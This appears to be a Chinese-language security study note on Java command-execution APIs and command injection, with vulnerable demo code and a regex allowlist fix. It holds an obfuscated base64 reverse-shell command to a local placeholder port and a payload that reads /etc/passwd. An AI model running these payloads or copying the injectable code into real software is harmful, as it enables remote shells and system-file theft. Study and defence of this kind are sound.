


# 命令执行方法

## Runtime

```java
// 回显
InputStream in = Runtime.getRuntime().exec("whoami").getInputStream();

Runtime run = Runtime.getRuntime();
Process p = run.exec(cmd);
BufferedInputStream in = new BufferedInputStream(p.getInputStream());
```

```java
// 反弹shell
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}");
```

## ProcessBuilder

```java
InputStream in = new ProcessBuilder("whoami").start().getInputStream();

String[] arrCmd = {"/bin/sh", "-c", cmd};
ProcessBuilder processBuilder = new ProcessBuilder(arrCmd);
Process p = processBuilder.start();
BufferedInputStream in = new BufferedInputStream(p.getInputStream());
```

## ProcessImpl

```java
String[] cmds = new String[]{"whoami"};
// 需要通过反射获取
Class clazz = Class.forName("java.lang.ProcessImpl");
// ProcessBuilder.start方法是命令执行
Method method = clazz.getDeclaredMethod("start", String[].class, Map.class, String.class, Redirect[].class, boolean.class);
method.setAccessible(true);
Process e = (Process) method.invoke(null, cmds, null, ".", null, true);
```

## UNIXProcess

```java
String[] cmds = new String[]{"whoami"};
Class clazz = Class.forName("java.lang.UNIXProcess");
Method start = clazz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
start.setAccessible(true);
Process process = (Process) start.invoke(null, cmds, null, ".", null, true);
```

## JNI

> JNI的全称叫做（Java Native Interface），其作用就是让我们的Java程序去调用C的程序。实际上调用的并不是exe程序，而是编译好的dll动态链接库里面封装的方法

1. 定义一个native修饰的方法
2. 使用javah进行编译 
3. 编写对应的c语言代码
4. 使用gcc编译成dll文件
5. 编写一个Java类使用System.loadLibrary方法，加载dll文件并且调用

https://www.javasec.org/java-vuls/JNI.html


# 命令注入漏洞Demo

```java
// 参数注入
String[] cmdList = new String[]{"sh", "-c", "ls -al " + filepath};
ProcessBuilder builder = new ProcessBuilder(cmdList);
builder.redirectErrorStream(true);
Process process = builder.start();

// host注入
String host = request.getHeader("host");
String[] cmdList = new String[]{"sh", "-c", "curl" + host};
ProcessBuilder builder = new ProcessBuilder(cmdList);
builder.redirectErrorStream(true);
Process process = builder.start();
```

payload

```http
?filepath=/tmp;cat /etc/passwd
```

## 问题



> Runtime和ProcessBuilder的**底层实际上都是ProcessImpl**。而不能执行dir命令的原因是java会对最后的我们传入的cmdstr进行以空格分割，也就是”echo xxx>test.txt”，会被分割会”echo”和”xxx>test.txt”，然后第一部分的”echo”会被当成启动的执行模块，然而在window的系统环境变量中是找不到这个启动模块的（可以在cmd中输入命令“where echo”进行测试）,所以运行后才会抛出“系统找不到指定文件”错误。

解决：`windows`加上`cmd /c`，`Linux`使用base64编码




## 修复代码

**主要是因为可以通过命令分隔符来执行多条命令**

该项目中给出的修复方法为通过正则只允许输入大小写字母、数字、下划线、斜杠、点和短横线

```java
private static final Pattern FILTER_PATTERN = Pattern.compile("^[a-zA-Z0-9_/\\.-]+$");

public static String cmdFilter(String input) {
        if (!FILTER_PATTERN.matcher(input).matches()) {
            return null;
        }

        return input;
    }
```

